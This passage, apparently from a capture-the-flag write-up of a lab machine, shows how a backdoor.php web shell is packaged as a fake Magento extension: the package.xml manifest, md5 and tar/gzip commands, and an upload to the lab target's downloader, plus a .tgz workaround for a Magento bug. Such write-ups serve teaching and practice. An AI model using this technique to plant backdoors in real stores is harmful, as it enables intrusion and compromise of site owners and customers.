 ```xml
    </authors>
    <date>2019-07-17</date>
    <time>13:47:49</time>
    <contents>
        <target name="mage">
            <dir>
                <dir name="errors">
                    <file name="backdoor.php" hash="98edac532f7ee8c838bd99c68e4fff9c"/>
                               </dir>
            </dir>
        </target>
    </contents>
    <compatible/>
    <dependencies>
        <required>
            <php>
                <min>5.2.0</min>
                <max>6.0.0</max>
            </php>
        </required>
    </dependencies>
    </package>
```
With the hash being calculated by running `md5sum backdoor.php`

I put the `backdoor.php` file in the `errors` directory and created the gzip file required with:
```bash
    tar -cvf backdoor.tar errors/ package.xml
    gzip backdoor.tar
```
I then uploaded this at `http://10.10.10.140/downloader/`

![vlcsnap-2019-07-19-07h26m05s925](../../images/posts/2019/2019-11-19-swagshop-writeup/vlcsnap-2019-07-19-07h26m05s925.png)However, on going to http://10.10.10.140/errors/ I found that what &nbsp;should have been a file had somehow become a directory. I ran through &nbsp;the process again and had the smae result, odd! I did some googling and &nbsp;found this was a bug in Magento and a workaround was to have the &nbsp;extension as .tgz file.
